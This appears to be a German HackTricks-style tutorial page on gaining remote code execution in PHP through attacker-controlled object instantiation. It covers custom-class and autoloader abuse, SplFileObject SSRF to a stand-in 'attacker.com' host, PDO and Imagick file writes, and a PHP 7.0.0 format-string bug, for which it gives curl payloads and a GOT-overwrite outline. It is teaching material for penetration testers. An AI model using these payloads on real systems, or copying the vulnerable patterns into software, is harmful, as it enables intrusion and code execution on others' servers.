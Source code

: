 # PHP - RCE durch Ausnutzung der Objekt-Erstellung: new $_GET["a"]($_GET["b"])

{{#include ../../../banners/hacktricks-training.md}}

Dies ist im Wesentlichen eine Zusammenfassung von [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Einführung

Die Erstellung neuer beliebiger Objekte, wie `new $_GET["a"]($_GET["a"])`, kann zu Remote Code Execution (RCE) führen, wie in einem [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) beschrieben. Dieses Dokument stellt verschiedene Strategien zur Erreichung von RCE vor.

## RCE via Custom Classes or Autoloading

Die Syntax `new $a($b)` wird verwendet, um ein Objekt zu instanziieren, wobei **`$a`** den Klassennamen darstellt und **`$b`** das erste Argument ist, das an den Konstruktor übergeben wird. Diese Variablen können aus Benutzereingaben wie GET/POST stammen, wo sie Strings oder Arrays sein können, oder aus JSON, wo sie als andere Typen auftreten können.

Betrachte den folgenden Codeausschnitt:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
In diesem Fall führt das Setzen von `$a` auf `App` oder `App2` und `$b` auf einen Systembefehl (z. B. `uname -a`) zur Ausführung dieses Befehls.

**Autoloading-Funktionen** können ausgenutzt werden, wenn solche Klassen nicht direkt zugänglich sind. Diese Funktionen laden Klassen automatisch aus Dateien, wenn sie benötigt werden, und werden mit `spl_autoload_register` oder `__autoload` definiert:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Das Verhalten des Autoloadings variiert je nach PHP-Version und bietet unterschiedliche RCE-Möglichkeiten.

## RCE über eingebaute Klassen

Fehlen eigene Klassen oder Autoloader, können **eingebaute PHP-Klassen** für RCE ausreichen. Die Anzahl dieser Klassen liegt je nach PHP-Version und installierten Erweiterungen zwischen etwa 100 und 200. Sie lassen sich mit `get_declared_classes()` auflisten.

Interessante Konstruktoren lassen sich über die Reflection-API identifizieren, wie im folgenden Beispiel und im Link [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF) gezeigt.

**Zu spezifischen Methoden für RCE gehören:**

### **SSRF + Phar Deserialization**

Die Klasse `SplFileObject` ermöglicht SSRF über ihren Konstruktor und erlaubt Verbindungen zu beliebigen URLs:
```php
new SplFileObject('http://attacker.com/');
```
SSRF kann in Versionen von PHP vor 8.0 unter Verwendung des Phar-Protokolls zu deserialization attacks führen.

### **Exploiting PDOs**

Der Konstruktor der PDO-Klasse erlaubt Verbindungen zu Datenbanken über DSN-Strings und kann möglicherweise die Erstellung von Dateien oder andere Interaktionen ermöglichen:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

PHP-Versionen bis einschließlich 5.3.22 und 5.4.12 waren anfällig für XXE-Angriffe über die `SoapClient`- und `SimpleXMLElement`-Konstruktoren, abhängig von der libxml2-Version.

## RCE über die Imagick-Erweiterung

Bei der Analyse der **Projektabhängigkeiten** wurde festgestellt, dass **Imagick** durch Instanziieren neuer Objekte für **command execution** missbraucht werden kann. Dies eröffnet Möglichkeiten zur Ausnutzung von Schwachstellen.

### VID parser

Es wurde festgestellt, dass der VID-Parser Inhalte an beliebige Pfade im Dateisystem schreiben kann. Dadurch könnte eine PHP-Shell in ein webzugängliches Verzeichnis abgelegt werden, was Remote Code Execution (RCE) ermöglicht.

#### VID Parser + File Upload

Es ist zu beachten, dass PHP hochgeladene Dateien temporär in `/tmp/phpXXXXXX` speichert. Der VID-Parser in Imagick, der das **msl**-Protokoll verwendet, kann Wildcards in Dateipfaden verarbeiten und so die Übertragung der temporären Datei an einen gewählten Ort ermöglichen. Diese Methode bietet einen zusätzlichen Ansatz, beliebiges Dateischreiben im Dateisystem zu erreichen.

### PHP Crash + Brute Force

Eine in der [**original writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) beschriebene Methode beinhaltet das Hochladen von Dateien, die einen Serverabsturz vor der Löschung auslösen. Durch Brute-Forcing des Namens der temporären Datei kann Imagick beliebigen PHP-Code ausführen. Diese Technik funktionierte jedoch nur in einer veralteten Version von ImageMagick.

## Format-string in class-name resolution (PHP 7.0.0 Bug #71105)

Wenn Benutzereingaben den Klassennamen kontrollieren (z.B., `new $_GET['model']()`), führte PHP 7.0.0 im Zuge des `Throwable`-Refactorings einen temporären Bug ein, bei dem die Engine fälschlicherweise den Klassennamen während der Auflösung als printf-Formatstring behandelte. Dies ermöglicht klassische printf-style primitives inside PHP: leaks with `%p`, write-count control with width specifiers, and arbitrary writes with `%n` against in-process pointers (for example, GOT entries on ELF builds).

Minimales reproduzierbares verwundbares Muster:
```php
<?php
$model = $_GET['model'];
$object = new $model();
```
Exploitation outline (aus der Referenz):
- Leak addresses via `%p` im Klassennamen, um ein beschreibbares Ziel zu finden:
```bash
curl "http://host/index.php?model=%p-%p-%p"
# Fatal error includes resolved string with leaked pointers
```
- Verwende positionale Parameter und width specifiers, um eine exakte Byte-Anzahl zu setzen, dann `%n`, um diesen Wert an eine auf dem stack erreichbare Adresse zu schreiben, ziele auf einen GOT slot (z.B. `free`), um ihn teilweise zu `system` zu überschreiben.
- Trigger die hijacked function, indem ein Klassenname mit einer shell pipe übergeben wird, um `system("id")` aufzurufen.

Anmerkungen:
- Funktioniert nur unter PHP 7.0.0 (Bug [#71105](https://bugs.php.net/bug.php?id=71105)); in späteren Releases behoben. Schweregrad: kritisch, falls arbitrary class instantiation vorhanden ist.
- Typische payloads verketten viele `%p`, um den stack zu durchsuchen, und nutzen dann `%.<width>d%<pos>$n`, um die partielle Überschreibung zu platzieren.

## Referenzen

- [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)
- [The Art of PHP: CTF‑born exploits and techniques](https://blog.orange.tw/posts/2025-08-the-art-of-php-ch/)

{{#include ../../../banners/hacktricks-training.md}}

